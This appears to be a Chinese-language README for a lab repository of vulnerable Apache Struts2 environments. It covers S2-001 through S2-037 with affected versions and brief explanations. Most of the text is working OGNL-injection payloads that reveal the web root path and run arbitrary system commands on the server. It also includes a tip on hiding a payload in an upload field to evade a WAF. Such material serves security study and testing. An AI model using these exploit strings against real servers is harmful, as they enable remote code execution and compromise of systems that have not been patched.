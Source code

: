 # Struts2Environment
Struts2 历史版本的漏洞环境
# PoC
## Struts2 S2-001
    影响版本：2.0.0 - 2.0.8
    具体详情：https://struts.apache.org/docs/s2-001.html
> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。
###构造PoC
获取tomcat执行路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取web根目录

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行系统命令

```
%{#a=(new java.lang.ProcessBuilder("whoami")).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}
```

## Struts2 S2-005
    影响版本: 2.0.0 - 2.1.8.1
    漏洞详情: http://struts.apache.org/docs/s2-005.html
    
>struts2漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为ongl语句执行(可理解为java代码)。ongl表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式讲这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

上文引用[LittleHann](http://www.cnblogs.com/LittleHann/p/4606891.html)的描述

### 构造PoC
获取web根目录

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i97)(('\43xman.getWriter().println(\43req.getRealPath(%22\u005c%22))')(d))&(i99)(('\43xman.getWriter().close()')(d))
```

执行系统命令

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'"+cmd+"\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

上面2个PoC摘自k8team，为了写PoC，有所改动，但是这里就不贴上来了：）

## Struts2 S2-009
    影响版本: 2.0.0 - 2.3.1.1
    漏洞详情: https://struts.apache.org/docs/s2-009.html

漏洞利用点跟S2-003和S2-005类似，利用OGNL表达式(1)(2),会执行1的OGNL表达式，009构造了的方法为test=(some OGNL 表达式)(1)&z[(test)(1)]=true。
z[(test)(1)]=true,对struts2来说是合法的参数，但是(test)(1)会执行上述说的方法，test的值被带入计算，造成命令执行。

### 构造PoC
弹计算器 ps:实验环境试了好几次都不能回显数据，路过的大佬求指教：）

```
person.name=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))(meh)&z[(person.name)('meh')]=true
```
用的是`person/new-person.action`这个控制器
## Struts2 S2-016
    影响版本: 2.0.0 - 2.3.15
    漏洞详情: https://struts.apache.org/docs/s2-016.html
    
>DefaultActionMapper 类支持以 action:，redirect: 和 redirectAction: 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```
执行系统命令

```
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('co'+'m.ope'+'nsymph'+'ony.x'+'wor'+'k2.disp'+'atch'+'er.HttpSe'+'rvletRe'+'sponse'),#matt.getWriter().println(new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()}'
```

还有一种比较隐蔽的方法，将PoC放在文件上传的name处，过waf。

## Struts2 S2-032
    影响版本: 2.3.20 - 2.3.28 (except 2.3.20.3 and 2.3.24.3)
    漏洞详情: https://struts.apache.org/docs/s2-032.html
    
> 在配置了 Struts2 DMI 为 True 的情况下，可以使用 method:<name> Action 前缀去调用声明为 public 的函数，DMI 的相关使用方法可参考官方介绍（Dynamic Method Invocation），这个 DMI 的调用特性其实一直存在，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会，代码详情可参考阿尔法实验室的报告 - 《Apache Struts2 s2-032技术分析及漏洞检测脚本》

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

### 构造PoC
获取web根目录

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```

执行系统命令

```
?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```

## Struts2 S2-037
    影响版本: 2.3.20 - 2.3.28.1
    漏洞详情: http://struts.apache.org/docs/s2-037.html
    
> 这个漏洞和之前S2-032/033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

上文引用[nsfocus](http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)的描述

### 构造PoC
获取web根目录

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#req=#context.get(#parameters.a[0]),#resp=#context.get(#parameters.b[0]),#resp.setCharacterEncoding(#parameters.c[0]),#ot=#resp.getWriter (),#ot.print(#parameters.e[0]+#req.getSession().getServletContext().getRealPath(#parameters.d[0])),#ot.flush(),#ot.close):xx.toString.json?&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```
执行系统命令

```
/(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(#a=(new java.lang.ProcessBuilder(#parameters.a[0])).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(#parameters.b[0]),#matt.getWriter().println(#parameters.c[0]+new java.lang.String(#e)),#matt.getWriter().flush(),#matt.getWriter().close()):xx.toString.json?&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```
